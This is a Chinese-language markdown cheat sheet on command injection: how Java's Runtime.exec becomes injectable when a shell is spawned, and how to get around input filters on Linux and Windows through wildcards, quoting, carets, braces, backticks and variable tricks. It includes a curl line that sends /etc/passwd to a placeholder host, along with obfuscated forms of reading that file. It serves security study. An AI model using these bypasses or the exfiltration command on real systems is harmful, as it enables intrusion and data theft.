



- [命令注入](#命令注入)
  - [JAVA 命令注入](#java-命令注入)
  - [Bypass](#bypass)
    - [Linux](#linux)
    - [通配符](#通配符)
    - [字符串拼接](#字符串拼接)
    - [\\ (回车)](#-回车)
    - [curl -d](#curl--d)
    - [反引号](#反引号)
    - [大括号](#大括号)
    - [Windows](#windows)
    - [特殊符号](#特殊符号)
    - [set变量](#set变量)
    - [切割字符串](#切割字符串)

# 命令注入
## JAVA 命令注入
java常见的执行系统命令的方式主要是Runtime.exec或者直接new ProcessBuilder。因为在java中执行系统命令并不会自动创建shell，而是直接执行对应的可执行程序，所以代码中是否创建了shell决定了是否存在命令注入。  
其中字符串数组传参和字符串传参的方式类似，字符串的方式会经过切割还是分成字符串数组的形式。
* 没有创建shell的情况。
  
可以看到会将www.baidu.com&calc当作一个参数传入，导致命令注入失败，但这种情况可能存在参数注入的情况。
* 创建shell的情况
  
这种情况下会将第一个参数后面的字符串挨个当作参数传入，导致命令注入。
* 字符串完全可控
  
这种情况下我们可以直接自己创建shell，也是存在命令注入。

这是因为无论传参方式是字符串还是字符串数组的，都会经过切割(根据\t\b\r\f分隔)成为字符串数组，然后将数组的第一个字符串当作可执行程序，第二个当作参数名，后续的当作参数值进行传递，如果不创建shell的话，比如直接执行a.exe程序，而a.exe是不会解析如`；& |`这些命令注入的符号。只要在shell中才会解析这些符号造成命令注入。
## Bypass
### Linux
区别大小写
### 通配符
`/???/c?t /?t?/p??swd` -> `cat /etc/passwd`
### 字符串拼接
1. python,java: + 
2. php, perl: .
3. 
```
a=who
b=ami
ab
```
### \ (回车)
1. `c\a\t /etc/passwd`
2. `c\ 回车 at /etc/passwd
### curl -d
curl -d 参数能够读取本地文件  
`curl -d @/etc/passwd x.x.x.x:8080`
### 反引号
```
``内的字符会被当成命令执行
```
### 大括号
{}代替空格  
`{ls,-alt}`
### Windows
不区分大小写
### 特殊符号
这些符号不会影响命令执行,
1. "
2. ^ 
3. ()
```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh"“oami //正常执行
wh”“o^am"i //正常执行
((((Whoam”"i)))) //正常执行
```
### set变量
%%之间的变量会引用其值
```
set a=who
set b=ami
%a%%b%
```
### 切割字符串
截取字符串:
%a:~0,6%,取变量a的0到6的值